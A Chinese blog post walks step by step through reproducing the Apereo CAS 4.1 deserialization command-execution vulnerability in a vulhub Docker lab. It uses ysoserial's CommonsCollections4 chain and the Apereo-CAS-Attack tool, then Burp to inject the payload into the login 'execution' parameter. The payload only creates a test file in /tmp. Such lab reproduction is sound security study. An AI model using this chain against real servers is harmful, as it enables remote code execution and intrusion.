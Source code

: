 ```yaml
---
layout: post
title: 'Apereo CAS 4.1 反序列化命令执行漏洞 (复现)'
date: "2025-07-29T00:51:13Z"
---
```

Apereo CAS 4.1 反序列化命令执行漏洞 (复现)
==============================

记Apereo CAS 4.1 反序列化命令执行漏洞 (复现)

此漏洞需要用到工具Apereo-CAS-Attack，工具地址：https://github.com/vulhub/Apereo-CAS-Attack  
还需要下载结合[https://github.com/frohoff/ysoserial](ysoserial)的CommonsCollections4链生成 Payload  
上述工具下载完成后将ysoserial放在工具的根目录里  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728191244988-1481399333.png)

在根目录下打开终端执行以下命令将 jar 包安装到本地 Maven 仓库

点击查看代码

    mvn org.apache.maven.plugins:maven-install-plugin:2.5.2:install-file \
      -Dfile=ysoserial-all.jar \
      -DgroupId=ysoserial \
      -DartifactId=ysoserial \
      -Dversion=0.0.6 \
      -Dpackaging=jar \
      -DlocalRepositoryPath=my-repo

![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728191803373-1196798118.png)

命令成功执行！！！  
ysoserial会被安装到项目根目录的my-repo文件夹中，供 Maven 构建时引用  
执行以下命令安装项目所需环境

点击查看代码

    # 更新包列表
    sudo apt update
    
    # 安装OpenJDK 8
    sudo apt install openjdk-8-jdk -y
    
    # 同样配置javac（编译器）
    sudo update-alternatives --config javac
    # 选择OpenJDK 8对应的javac路径
    
    #执行以下代码
    javac -version
    若返回类似javac 1.8.0_xxx，说明 JDK 安装成功

![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728192645350-1604077267.png)

执行代码`mvn clean package assembly:single -DskipTests`构建项目  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728193122933-93798430.png)

执行成功示图如上，接下来就可以使用该工具生成payload了

漏洞目录终端下执行`docker compose up -d`开启容器访问ip:8080  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728184738578-714171650.png)

生成恶意 Payload  
利用漏洞工具`Apereo-CAS-Attack（集成了默认密钥和序列化逻辑）`生成加密后的恶意序列化数据  
`java -jar target/apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/cas_exploit_success"`  
生成 Payload（利用反序列化执行 touch /tmp/cas\_exploit\_success）  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728185045182-1458276099.png)

工具会输出一段 Base64 编码的长字符串；

接下来请出bp(burpsuite)抓包  
网站首页使用测试账密test/test，输入后不要登陆！！！  
回到bp点击proxy启动代理（浏览器也需要挂上bp的代理），点击登录开始抓包  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728185416697-1102628730.png)

鼠标右键点击那条POST命令`send to repeater`，切换到repeater界面  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728185629597-1993652850.png)

将第一步生成的Base64编码替换成execution参数的内容  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728185833123-1031695916.png)

点击`Send`，收到状态码500，不确定漏洞复现没，验证一下  
`java -jar target/apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/cas_exploit_success"`  
此命令是在服务器的/tmp目录下创建文件，只需要访问服务器这个位置查看是否成功创建文件即可验证是否成功  
![image](https://img2024.cnblogs.com/blog/3680810/202507/3680810-20250728190221941-1054672224.png)

文件创建成功，该漏洞成功复现！！！